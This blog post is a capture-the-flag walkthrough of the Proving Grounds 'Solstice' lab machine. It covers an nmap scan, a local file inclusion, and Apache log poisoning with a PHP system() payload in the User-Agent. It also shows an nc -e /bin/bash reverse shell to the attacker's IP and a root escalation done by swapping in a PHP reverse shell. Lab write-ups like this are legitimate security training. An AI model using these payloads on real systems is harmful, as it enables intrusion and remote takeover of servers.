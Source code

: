 ```yaml
---
title: "Proving grounds Play: Solstice"
layout: post
date: 2023-09-13 05:00
categories: writeup
---
```


Proving grounds Play - Solstice CTF writeup.

## Nmap

```sh
PORT      STATE SERVICE    VERSION
21/tcp    open  ftp        pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.180.72:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5ba737fd556cf8ea03f510bc94320718 (RSA)
|   256 abda6a6f973fb2703e6c2b4b0cb7f64c (ECDSA)
|_  256 ae29d4e346a1b15227838f8fb0c436d1 (ED25519)
25/tcp    open  smtp       Exim smtpd
| smtp-commands: solstice Hello nmap.scanme.org [192.168.45.197], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http       Apache httpd 2.4.38 ((Debian))
2121/tcp  open  ftp        pyftpdlib 1.5.6
3128/tcp  open  http-proxy Squid http proxy 4.6
8593/tcp  open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
54787/tcp open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)

62524/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT : 8593

![img](/assets/images/CTF/Proving_Grounds/Solstice/web.png)

## LFI Vulnerability

Clicking on the `Book List` button shows the `index.php?book` location.   

![img](/assets/images/CTF/Proving_Grounds/Solstice/lfi.png)

## Apache Log Poisoning attack

```text
http://192.168.180.72:8593/index.php?book=../../../../../../var/log/apache2/access.log
```

The LFI vulnerability can be exploited through the log poisoning attack. Send a php code execution payload to the server to store the payload in the log file.

```sh
curl http://192.168.180.72 -A "<?php system(\$_GET['cmd']); ?>"
```

Execute arbitrary command in the URL to verify the code execution.

```sh
http://192.168.180.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=whoami
```

Execute the below netcat command to obtain reverse shell. Ensure netcat listener is running on the desired PORT for reverse connection.

```sh
curl -s "http://192.168.180.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.197%204444%20-e%20%2Fbin%2Fbash%20"
```

![img](/assets/images/CTF/Proving_Grounds/Solstice/shell.png)

**Initial Foothold obtained**

## Privilege Escalation

### Process Enumeration

Check the running process with root permissions.

```sh
ps aux | grep root
```

![img](/assets/images/CTF/Proving_Grounds/Solstice/ps.png)

PHP is running as root, in order to get a shell as `root` the index.php file located in the `/var/tmp/sv/` folder has to be replaced with a php reverse shell.

Download the pentest monkey php reverse shell into the folder and rename it as `index.php`. Once the file is downloaded and renamed then run internal curl command to execute the php file to obtain the reverse shell.

![img](/assets/images/CTF/Proving_Grounds/Solstice/root.png)

**Root obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).